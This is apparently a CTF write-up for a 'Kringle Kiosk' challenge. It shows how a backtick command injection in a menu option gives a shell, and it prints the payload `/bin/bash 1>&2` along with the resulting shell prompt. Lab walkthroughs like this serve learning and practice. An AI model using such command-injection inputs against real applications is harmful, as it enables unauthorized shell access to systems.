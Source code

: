 # Escape to shell
Option 4 gives a  hint that special characters may cause errors, after trying to execute `/bin/bash` in between back ticks "`" it seems it works but we receive no output to the console so we try again to redirect the stdout to stderror

![Access](A-KringleKiosk-access.png)

![Welcome](A-KringleKiosk-welcome.png)

## Escaping to shell
Using back ticks can be used to execute shell comamnds but the output is being filtered so to show the output we redirect the `stdout` to `stderr`

```
`/bin/bash 1>&2`
```
And we escape to the shell.

```
   ___                                                      _    
  / __|   _  _     __      __      ___     ___     ___     | |   
  \__ \  | +| |   / _|    / _|    / -_)   (_-<    (_-<     |_|   
  |___/   \_,_|   \__|_   \__|_   \___|   /__/_   /__/_   _(_)_  
_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_| """ | 
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 

Type 'exit' to return to the menu.

shinny@9bf4b0fee057:~$
```

![Solution](A-KringleKiosk-solution.png)